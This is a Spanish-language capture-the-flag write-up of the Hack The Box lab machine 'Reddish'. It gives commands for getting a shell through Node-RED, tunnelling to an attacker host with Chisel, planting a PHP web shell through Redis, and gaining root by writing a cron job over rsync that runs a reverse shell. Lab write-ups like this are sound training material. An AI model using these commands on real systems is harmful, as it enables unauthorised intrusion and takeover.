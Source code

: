 ```yaml
---
title: "Hack The Box - Reddish"
description: "Obtener acceso root en un entorno multi-contenedor que incluye Redis, Node-RED y Rsync."
pubDate: 2025-08-26
draft: false
useMdTitle: true
---
```

**IP:** `10.10.10.94`  
**OS:** Linux (multi-container environment)  
**Dificultad:** Insane 

---

### 🧭 Enumeración Inicial
```bash
curl -s -X POST http://10.10.10.94:1880/
```
Devuelve una estructura de flujo que sugiere acceso a **Node-RED** con ejecución de comandos. Se carga una reverse shell mediante el flujo.

---

## 🐚 Acceso Inicial 
- Se usa el flujo de Node-RED para ejecutar una reverse shell apuntando a nuestro listener.
- Dentro del contenedor, se observan dos interfaces de red: `172.18.0.2` y `172.19.0.4`.

---

## 🌐 Enumeración de la red
Se usa un script personalizado para escanear los rangos internos (172.18.0.0/16 y 172.19.0.0/16).  
Se detectan múltiples servicios accesibles:

- `172.19.0.2:6379` – Redis
- `172.19.0.3:80` – Web
- `172.19.0.4` – Node-RED (usado)

---

## 🔁 Port Forwarding con Chisel
```bash
# En atacante:
./chisel server --reverse -p 1234
```
# En víctima:
```bash
./chisel client <IP_ATACANTE>:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6379
```

---

## 🧠 Redis Exploitation
Se puede usar Redis para escribir archivos directamente en el servidor web.
```bash
echo "<?php system($_REQUEST['cmd']) ?>" > cmd.php
cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
redis-cli config set dir /var/www/html/<ruta>
redis-cli config set dbfilename "cmd.php"
redis-cli save
```
Se obtiene ejecución remota de comandos por web:  
```bash
`http://<host>/cmd.php?cmd=id`
```
---

## 🛠 Reverse Shell desde backup
Se usa `socat` y una reverse shell Perl desde un endpoint vulnerable.

---

## 🧪 Rsync + Cron Exploit (Privesc)
Desde el contenedor web se detecta host `backup (172.20.0.2)` con Rsync.

```bash
# Creamos archivo cron:
echo '* * * * * root sh /tmp/reverse.sh' > reve
rsync reve rsync://backup:873/src/etc/cron.d
```

Se sube script con reverse shell:
```bash
rsync reverse.sh rsync://backup:873/src/tmp/reverse.sh
```

---

## 👑 Root Access
Al activarse el cron job, se recibe una shell como `root@backup`.

```bash
whoami
# root
```

---

## 🧾 Conclusiones
- Máquina interesante por su diseño multi-contenedor.
- Se combinan técnicas: RCE via Node-RED, explotación de Redis, port forwarding con Chisel, y escalada vía Rsync+cron.
- Refuerza conceptos de post-explotación en entornos internos aislados.

✅ ¡Rooted!

